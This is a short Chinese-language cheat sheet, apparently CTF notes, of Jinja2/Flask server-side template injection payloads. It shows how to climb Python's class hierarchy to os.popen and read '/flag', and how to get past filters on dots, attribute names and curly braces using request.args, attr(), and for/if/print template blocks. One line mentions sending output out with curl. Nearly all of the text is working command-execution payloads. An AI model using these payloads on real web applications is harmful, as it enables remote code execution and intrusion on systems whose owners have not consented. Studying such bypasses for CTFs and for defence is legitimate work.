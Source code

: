 1. 使用request对象。Flask可以有以下参数

> form  
> args  
> values  
> cookies  
> stream  
> headers

```python
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[80]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[80].__init__.__globals__['os'].popen('whoami').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

## 过滤点.

1. 使用中括号来互换

```python
{{''.__class__}}
{{''["__class__"]}}
{{''|attr("__class__")}}
```

2. 也可以使用原生 JinJa2 的 `attr()` 函数，如

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(80)|attr("__init__")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("eval")('__import__("os").popen("whoami").read()')}}
```

## 过滤花括号{

1. 如果题目直接把{{}}过滤了，可以考虑使用Flask模板的另一种形式{%%}装载一个循环控制语句来绕过

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='_IterationGuard' %}
{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()") }}
{% endif %}
{% endfor %}
```

2. 也可以使用`{% if ... %}1{% endif %}`配合 os.popen 和 curl 将执行结果外带（不外带的话无回显）

```python
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('whoami') %}1{% endif %}
```

3. 也可以用`{%print(......)%}`的形式来代替`{{}}`

```python
{%print(''.__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()"))%}
```
